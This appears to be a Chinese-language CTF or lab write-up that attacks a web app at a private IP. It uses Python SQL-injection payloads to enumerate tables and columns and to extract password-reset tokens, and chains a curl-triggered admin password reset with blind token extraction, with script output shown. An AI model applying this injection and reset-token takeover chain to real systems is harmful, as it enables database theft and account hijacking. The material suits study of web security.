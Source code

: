 ```python
pay = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
exp(pay)
# 查看当前数据库的表单
# 结果：item,level,user


v3 = str(binascii.hexlify(b'user'))[2:-1]
pay = f"select group_concat(column_name) from information_schema.columns where table_name=0x{v3}"
exp(pay)
# 查看当前数据库 user 的字段
# 结果：id,username,password,email,gender,id_level,token,Host,User,Select_priv,Insert_priv,Update_priv,Dele

pay = "select group_concat(token) from user"
exp(pay)
# 查看token字段
```
一开始 使用sql注入得到的密码登录不成功
得到的密码是密文，而验证时需要MD5加密后的，这样肯定不能登录
`unaccessable_until_you_change_me,unaccessable_until_you_change_me`

 生成token的代码在`/login/resetPassword.php`
```php
function generateToken(){
    $characters = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ';
    $charactersLength = strlen($characters);
    $randomString = '';
    for ($i = 0; $i < 15; $i++) {
        $randomString .= $characters[rand(0, $charactersLength - 1)];
    }
    return $randomString;
}
# 生成token的随机性太大，爆破当然不太现实
```

### Exploitation
讲一下大概思路
> 利用重置密码功能 `http://172.16.1.65/login/resetPassword.php`
> 用户名 `admin` 然后 生成一个token 它会存放到数据库里，然后我们利用sql注入查看token
> 有了token 就好办多了

这里的一系列操作我就使用`curl`

```shell

# 提交要重置密码的用户名，然后数据库里就多了token
curl -XPOST -d "username=admin" "http://172.16.1.65/login/resetPassword.php"
```
```shell
# 在使用上面的脚本跑出token
$ python3 t.py 
9
90
90v
90vw
90vwe
90vwel
90vwelD
90vwelDS
90vwelDSu
90vwelDSua
90vwelDSuac
90vwelDSuacG
90vwelDSuacG7
```